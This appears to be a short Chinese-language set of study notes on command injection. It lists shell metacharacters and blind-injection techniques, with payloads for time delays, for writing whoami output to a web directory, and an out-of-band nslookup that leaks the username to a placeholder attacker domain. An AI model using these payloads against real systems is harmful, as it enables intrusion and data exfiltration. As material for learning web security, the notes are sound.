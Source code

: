 # Command Injection
## Shell metacharacters
* `&` : 背景執行。
* `|` : 將當前輸出，作為下一個指令的輸出。
* `&&` : 前一個指令成功，才會執行下一個。
* `||` : 前一個指令失敗，才會執行下一個。
* `;` : 終止符號 (用在依序執行指令)。
* `0x0a or \n` 換行。
* ``` `` or $() ``` : 行內執行指令。
## Blind command injection
### Time delays
* 使用 ping 指令來達到時間延遲。
```
& ping -c 10 127.0.0.1 &
```
### Redirecting output
* 將結果輸出。
```
& whoami > /var/www/static/whoami.txt &
```
### Out-of-band (OAST) techniques
* 使用 nslookup 進行 dns 查詢。
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```
* ``` `whoami` ``` 這邊會執行，因此會的到下面結果，拿到當前使用者名稱。
```
wwwuser.kgji2ohoyw.web-attacker.com
```
---
###### tags: `web security`